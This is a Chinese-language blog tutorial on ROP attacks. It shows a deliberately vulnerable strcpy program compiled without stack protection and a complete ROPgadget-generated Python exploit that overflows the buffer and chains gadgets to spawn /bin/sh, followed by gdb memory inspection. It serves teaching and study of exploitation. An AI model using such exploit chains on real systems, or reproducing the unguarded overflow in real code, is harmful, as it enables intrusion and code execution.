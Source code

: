 title: 使用ROPgadget构建gadgets链，实现ROP攻击
date: 2015-06-12 15:34:53
tags: 
- 缓冲区溢出 
- ROP
categories: ROP
---
上篇博客简单介绍了ROPgadget，现在我们就来小试牛刀
<!-- more -->
# I、C程序
```
#include <string.h>
#include <stdio.h>

void function(char *a){
        char buff[40];
        strcpy(buff,a);
}
 
int main(int argc, char** argv){
    if(argc>=2)
        function(argv[1]);
}
```
编译C程序
```
gcc hello.c -o hello -static -g -fno-stack-protector
```
# II、使用ROPgadget构建gadget链
ROPgadget的安装[上篇博客](http://huirong.github.io/2015/06/12/ROPgadget/)已经介绍了,这里不赘述。
```
ropgadget --binary hello --ropchain
```
创建输入文件exploit.py
```
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''
p += 'a'*52

p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x0808d211) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee064) # @ .data + 4
p += pack('<I', 0x0808d211) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080514e0) # xor eax, eax ; ret
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481ec) # pop ebx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x080997d3) # pop ecx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080514e0) # xor eax, eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x080493b9) # int 0x80
print p
```
<font color="red">注意：要在gadget之前添加 p += 'a'*52</font>
原因：使函数的返回地址指向第一个gadget
# III、使用gdb分析内存
```
gdbtui hello
```
## ① 添加断点，设置参数
根据自己喜欢在程序某个地方设置断点，我一般设置在主函数处
运行时参数为 ./exploit.py 的运行结果
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1et1d063ftej30px0fq0yj.jpg)
## ② 查看寄存器
当运行完strcpy()函数后，查看寄存器情况，主要留意esp  ebp的值
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1et1d0cngncj30n80fp43t.jpg)
## ③ 查看内存情况
ebp为0xbffff288，则返回地址在0xbffff28c处，可以发现此时返回地址是第一个gadget的起始地址处
<font color="red">p += 'a'*52 是为了覆盖缓冲区，直到返回地址处</font>
![](http://ww1.sinaimg.cn/large/005CA6ZCjw1et1d0lh38xj30nr05rads.jpg)
# IV、运行结果
```
./hello "$(./exploit.py)"
```
![](http://ww2.sinaimg.cn/large/005CA6ZCjw1et1d0ryguaj30fe016t8q.jpg)
# V、参考文献
[use ROPgadget to chain gadgets](https://hwchen18546.wordpress.com/2014/07/15/rop-use-ropgadget-to-chain-gadgets/)
